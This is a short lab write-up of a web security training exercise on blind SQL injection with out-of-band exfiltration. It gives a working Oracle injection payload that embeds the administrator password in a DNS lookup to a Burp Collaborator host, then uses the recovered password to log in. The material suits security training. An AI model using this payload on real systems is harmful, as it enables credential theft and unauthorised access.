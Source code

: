 # Lab: Blind SQL injection with out-of-band data exfiltration

## Lab Desctiption

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/7bdcf941-2682-42dc-af83-528532fb5374)

## Solution

First go to Burp Collaborator and copy the subdoimain. Then edit the payload to recieve the administrator passowrd.

`x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.3aeit82uc92m3q1jtfqlnaomldr5fw3l.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
`
Use this payload and load the website once.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/51e60f2f-b05e-4ae5-94dc-b4620bf96c22)

When we go to Burp Collaborator again, in the polls we can domain name `fdab9w6fmj1ir17fyl88.3aeit82uc92m3q1jtfqlnaomldr5fw3l.oastify.com` . Here `3aeit82uc92m3q1jtfqlnaomldr5fw3l.oastify.com` is our domain name so we get `fdab9w6fmj1ir17fyl88` as the password for the `administrator.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/dc19de60-bb96-4bdd-90a3-6d063530be3d)

Using the passowrd found, logging in as administrator is successfull.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/04b5a6fc-2754-4d42-af41-edd9536f8717)
